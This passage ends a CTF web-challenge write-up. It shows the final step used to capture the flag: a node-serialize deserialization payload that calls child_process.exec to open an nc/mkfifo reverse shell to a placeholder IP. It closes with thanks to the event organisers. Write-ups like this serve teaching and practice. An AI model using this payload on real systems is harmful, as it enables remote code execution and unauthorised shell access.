Next I used simple nc mkfifo rev shell from https://revshells.com and got shell access to read the flag.

Reverse Shell Payload: `{"streamername":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your-ip> 11919 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()","statu`



That is all for now. Kudos to the AirOverflow team for organizing such an amazing CTF event and @rootxran for all the amazing web challenges.

**Thanks for reading!**
